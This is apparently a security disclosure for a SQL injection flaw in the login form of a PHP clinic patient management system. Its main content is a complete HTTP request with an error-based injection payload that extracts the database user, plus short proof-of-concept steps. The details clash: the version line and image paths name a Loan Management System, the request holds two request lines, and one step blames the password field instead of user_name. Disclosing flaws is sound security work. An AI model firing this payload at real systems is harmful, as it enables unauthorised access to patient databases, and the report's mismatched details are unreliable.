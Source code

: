 # Clinic's Patient Management System - index.php 'user_name' SQL inject

#### Exploit Title: Clinic's Patient Management System - index.php 'user_name' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code

#### Software Link:https://www.sourcecodester.com/php-clinics-patient-management-system-source-code

#### Version: Loan Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Clinic's Patient Management System does not filter the content correctly at the "index.php /user_name" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
POST /index.php HTTP/1.1
Host: 192.168.31.35:8089
Content-Length: 103
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.31.35:8089
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.35:8089/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lkdn1jvj1em9c4j3olu9e2pdpo
Connection: close

user_name=admin' AND GTID_SUBSET(CONCAT(0,(SELECT user()),0),3619) AND 'XOyz'='XOyz&password=123&login=
```

#### Proof of Concept

1、Grab the package at the login and find that the login program is in index.php

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

![](D:\cves\Loan-Management-System\images\sourcecodesql.png)

3、During manual testing, it is found that SQL error reporting injection exists, so the sensitive information and permissions of the database can be obtained by using the error reporting injection function

![](D:\cves\Loan-Management-System\images\sqlresult1.png)

![](D:\cves\Loan-Management-System\images\sqlresult.png)

4、Using the tool to test, it is found that there is also blind SQL time injection

![](D:\cves\Loan-Management-System\images\sqlresult2.png)

